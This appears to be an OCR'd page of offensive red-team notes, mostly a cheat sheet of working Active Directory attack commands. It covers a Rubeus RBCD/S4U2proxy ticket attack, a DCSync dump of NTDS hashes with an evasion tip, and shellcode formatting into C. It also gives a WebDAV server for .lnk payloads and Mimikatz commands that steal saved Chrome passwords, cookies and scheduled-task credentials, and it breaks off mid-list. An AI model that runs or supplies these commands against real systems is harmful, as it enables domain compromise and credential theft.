 ```
sources : 
https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html?m=1
https://twitter.com/snovvcrash/status/1525881994055503877?s=21&t=Q5wxCit0tLZjR6l-6YVnRg
# 1- Ask TGT
Rubeus.exe asktgt /user:username /rc4:123123123123 /nowrap
# 2- Ask TGS
Rubeus.exe asktgs /service:username@domain.local /enterprise /targetuser:administrator /nowrap /ticket:doIFaaaaaaaa
# 3- Convert NT hash to long term key - with Python script
import base64,hashlib
hashlib.new('md4', base64.b64decode('testtesttesttest==')).hexdigest()
# 4- Change user's NT hash to long term key 
smbpasswd.py domain.local/username@ip -newhashes :longtermHashObtainedPreviously -altuser DOMAIN/administrator -altpass 'newpass' -admin
# 5- S4U2proxy attack using user's TGT 
Rubeus.exe s4u /msdsspn:host/SPN.domain.local /nowrap /ticket:doIF..... 
```
# dump AD / DCSync (OPSec tip : dumping from a non DC host is sus AF)
proxychains -q crackmapexec smb DC_IP -u dc$ -H d4<SNIP>9 --ntds
## Raw shellcode to C
"Another way to do big shellcode to C array. Puts it right into the correct format, variable names, braces, length, the whole bit. Then you just include shellcode.h"
Source : "Solomon Sklash#7922" (Discord)
```
xxd -i shellcode.bin > shellcode.h
```
## Starting a WebDAV server and reaching it
```
 sudo davserver -P 80 -H 0.0.0.0 -n -D ./share/
 sudo davserver3 -P 80 -H 0.0.0.0 -n -D ./share/
  \\webdavserver@80\share\file.lnk
```
## Running Rubeus into a non Domain joined computer
On Windows you can use a tool called Proxifier to proxify your trafic like proxychains...make sure it runs as system and for all users and processes
https://www.proxifier.com/download/
```
runas /netonly /user:domain.local\username cmd.exe
Rubeus.exe asktgt /user:username /password:Password /domain:DOMAIN.LOCAL /dc:DC_IP_HERE /ptt
```
## Mimikatz commands:
Read saved passwords from Chrome
```
dpapi::chrome /in:"c:\users\USERNAME\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
```
Read Cookies from Chrome
Source: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++
```
dpapi::chrome /in:"c:\users\USERNAME\AppData\Local\Google\Chrome\User Data\Default\Cookies"
```
Extract passwords from Scheduled Tasks
Source: https://github-wiki-see.page/m/gentilkiwi/mimikatz/wiki/howto-~-scheduled-tasks-credentials
```
mimikatz vault::cred /patch
```
Extract Wi-Fi passwords